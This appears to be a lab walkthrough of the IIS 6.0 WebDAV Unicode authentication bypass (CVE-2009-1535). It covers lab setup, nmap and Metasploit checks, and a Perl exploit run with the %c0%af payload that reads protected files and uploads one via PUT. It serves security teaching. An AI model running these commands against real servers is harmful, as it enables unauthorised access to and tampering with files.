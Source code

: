 
CVE-2009-1535  |  IIS 6.0 WebDAV Unicode Authentication Bypass (Part 1)

Part1: https://www.youtube.com/watch?v=DRxaEvuwQbA

Part2: https://www.youtube.com/watch?v=mz8DlKZyXTk

--------------

IIS 6.0 WebDAV Unicode Authentication Bypass

CVE-2009-1535

https://www.cvedetails.com/cve/CVE-2009-1535/

https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass

--------------

### Part 1 

1. On Server 2003 machine, create the following folder structure:

C:\demo1\demo11\secret111.txt
C:\demo2\demo22\secret222.txt

2. Enable WebDAV...

Default Web Site > New > Virtual Directory > Alias => intranet1
Default Web Site > New > Virtual Directory > Alias => intranet2

Web Site Properties > Home Directory > Read + Write + Directory browsing 
		    > Directory Security > Authentication Method > only Windows Authenticated Users can access this 

3. Testing authentication method

Try to access the website/file on victim machine
http://192.168.50.3/intranet1/demo1/demo11/secret111.txt

Try to access the website/file from Kali machine
http://192.168.50.3/intranet2/demo2/demo22/secret222.txt

4. Use the following scripts to check the vulnerability

Option 1: using Nmap

> nmap --script http-iis-webdav-vuln -p 80 192.168.50.3

Need to add "intranet1" + "intranet2" manually into the dictionary file

> nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet1 -p 80 192.168.50.3
> nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet2 -p 80 192.168.50.3

Option 2: using Metasploit module

msf> use auxiliary/scanner/http/dir_webdav_unicode_bypass

Need to add "intranet1" + "intranet2" manually into the dictionary file

> echo intranet1 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
> echo intranet2 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt

Why does Directory traversal attack %C0%AF work?

https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

### Part 2 

5. Exploit

https://www.exploit-db.com/exploits/8806/

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af

> path

Copy XML content to temp.html > open with Web browser

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt

> source

perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt

> put  =>  /root/pm.txt

Try to access that file from local/remote machine (my_file.txt)

http://192.168.50.3/intranet1/demo1/demo11/my_file.txt

